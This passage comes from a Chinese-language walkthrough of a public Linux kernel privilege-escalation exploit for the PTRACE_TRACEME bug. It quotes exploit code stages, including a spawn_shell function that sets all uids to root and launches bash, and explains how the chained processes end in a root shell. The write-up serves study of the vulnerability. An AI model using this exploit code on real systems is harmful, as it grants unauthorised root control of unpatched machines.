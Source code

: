 ```
167 int main(int argc, char **argv) `{`
168   if (strcmp(argv[0], "stage2") == 0)
169     return middle_stage2();
170   if (strcmp(argv[0], "stage3") == 0)
171     return spawn_shell();
```

而 middle_stage2 函数同样调用了 force_exec_and_wait , 这将使 task B 利用 ptrace 控制 task C 执行 execveat 函数，将 task C 的镜像也替换为 exploit 的 binary, 且参数是 stage3

```
153 static int middle_stage2(void) `{`
154   /* our child is hanging in signal delivery from execve()'s SIGTRAP */
155   pid_t child = SAFE(waitpid(-1, &amp;dummy_status, 0));
156   force_exec_and_wait(child, 42, "stage3");
157   return 0;
158 `}`
```

当 exploit binary 以参数 stage3 运行时，实际运行的是 spawn_shell 函数, 所以 task C 最后阶段运行的是 spawn_shell

```
160 static int spawn_shell(void) `{`
161   SAFE(setresgid(0, 0, 0));
162   SAFE(setresuid(0, 0, 0));
163   execlp("bash", "bash", NULL);
164   err(1, "execlp");
165 `}`
```

在 spawn_shell 函数里， 它首先使用 setresgid/setresuid 将本进程的 real uid/effective uid/save uid 都变成 root, 由于 task C 刚刚已经执行了 suid binary 将自身的 euid 变成了 root, 所以这里的 setresuid/setresgid 可以成功执行，到此为止， task C 就变成了一个完全的 root 进程， 最后再执行 execlp 启动一个 shell, 即得到了一个完整 root 权限的 shell



## 引用
- [ broken permission and object lifetime handling for PTRACE_TRACEME](https://bugs.chromium.org/p/project-zero/issues/detail?id=1903)